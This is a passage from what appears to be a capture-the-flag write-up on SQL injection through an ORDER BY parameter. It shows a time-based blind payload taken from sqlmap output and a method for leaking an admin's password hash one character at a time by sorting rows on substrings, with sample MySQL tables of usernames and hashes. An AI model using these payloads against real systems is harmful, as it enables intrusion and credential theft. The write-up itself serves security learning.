 ## Join
ARE YOU MAD? We have the same problem of "Not allowed after an order by".

## Blind SQli
Okokok....let's just use a blind SQLi. For sure, the easiest solution would be using a subselect with a normal time delay. And sqlmap proofs me right here.
```
---
Parameter: order (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: action=list&order=2 AND SLEEP(5)&sort=ASC
---
```
This works to proof the SQLi. But: If you want to extract serious data you can't do it below 22 chars.

# Crazy Solution
Let's step up the game and recap.

We control the order of the user list output. What can we do here. We could reorder stuff, du'h.

Consider the following SQL statement:
```
mysql> select id,username,pwd from user order by pwd;
+----+--------------+----------------------------------+
| id | username     | pwd                              |
+----+--------------+----------------------------------+
|  5 | nuit         | 098f6bcd4621d373cade4e832627b4f6 |
|  7 | test         | 098f6bcd4621d373cade4e832627b4f6 |
|  6 | tester01     | 6a36da6b6787c25eef0eed8025b3d3bc |
|  4 | evenmoreevil | ce9a6667cb746ec19d1714876f6ba38a |
|  2 | hacker       | d6a6bc0db10694a2d90e3a69648f3a03 |
|  3 | admin%       | e83f08e2f234e153c47ff99541e9a979 |
|  1 | admin        | e89f3f6c01d96f9c363e224a66b8db77 |
+----+--------------+----------------------------------+
```
It gets sorted by pwd and we know the first character of the admin password hash is after the first character of nuits hash.

Using substring we can sort by each character of the hash:
```
mysql> select id,username,substr(pwd,1,1),pwd from user order by substr(pwd,2,1);
+----+--------------+-----------------+----------------------------------+
| id | username     | substr(pwd,1,1) | pwd                              |
+----+--------------+-----------------+----------------------------------+
|  2 | hacker       | d               | d6a6bc0db10694a2d90e3a69648f3a03 |
|  1 | admin        | e               | e89f3f6c01d96f9c363e224a66b8db77 |
|  3 | admin%       | e               | e83f08e2f234e153c47ff99541e9a979 |
|  5 | nuit         | 0               | 098f6bcd4621d373cade4e832627b4f6 |
|  7 | test         | 0               | 098f6bcd4621d373cade4e832627b4f6 |
|  6 | tester01     | 6               | 6a36da6b6787c25eef0eed8025b3d3bc |
|  4 | evenmoreevil | c               | ce9a6667cb746ec19d1714876f6ba38a |
+----+--------------+-----------------+----------------------------------+
```
